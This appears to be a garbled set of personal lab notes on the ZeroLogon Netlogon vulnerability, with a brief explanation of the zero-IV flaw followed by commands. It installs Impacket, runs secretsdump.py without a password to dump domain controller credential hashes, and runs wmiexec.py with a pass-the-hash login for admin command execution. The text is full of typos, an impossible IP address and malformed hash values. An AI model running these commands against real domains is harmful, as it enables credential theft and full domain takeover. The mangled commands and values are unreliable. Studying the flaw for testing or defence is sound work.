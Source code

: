 #zero Logon vuln. A move from zero to Domain admin in approcx one minute.


``MS-NRPC (microsoft Netlogon Remote Protocol)
- This is a critical componnet of AD that hnadles authentication for users and machines accounts.
- takez advantage od poor implemenmtation of cryptograhy.
-Hard coding of initialisation vector with zeros instead of random strings



## TESTING THE ZEROLOGON SCRIPT

- eXZPLOit the dvuln DC

** Remove Impacket**
_sudo apt remove --purge impacket-scripts python3-impacket_

"##run impacket in a virtual machine

```apt install python3-venv
python3 -m venv impacketEnv
source impacketEnv/bin/activate
git clone https://github.com/SecureAuthCorp/impacket /opt/impacket
cd /opt/impacket
pip3 install .
python3 setup.py install```


secretsdump.py -just-dc -no-pass sss\$@10.0.4.777

wmiexec.py xxxxxx/Adminxxxxxxx@10.5.0.0 -hashes aad3b4sssiiikakalad3b435b51404ee:3f3ef89roemskjemsm7fc23c20f65568